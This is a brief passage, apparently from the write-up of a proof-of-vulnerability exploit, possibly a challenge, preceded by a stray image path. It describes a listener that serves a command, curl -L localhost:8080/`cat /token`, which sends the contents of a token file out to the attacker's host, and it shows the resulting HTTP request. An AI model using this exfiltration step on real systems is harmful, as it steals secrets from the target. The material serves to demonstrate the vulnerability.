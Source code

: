 The "localhost" target needs to be set to the host running the POV. After this command is sent, the POV
opens a listening socket on port 8000. After the target connects the POV serves up the following command:

curl -L localhost:8080/`cat /token`

Which does a final request with the data inside /token as the request. The final request will look something like this:

GET /931606baaa7a2b4ef61198406f8fc3f4 HTTP/1.1
Host: localhost:8080
User-Agent: curl/7.58.0
Accept: */*
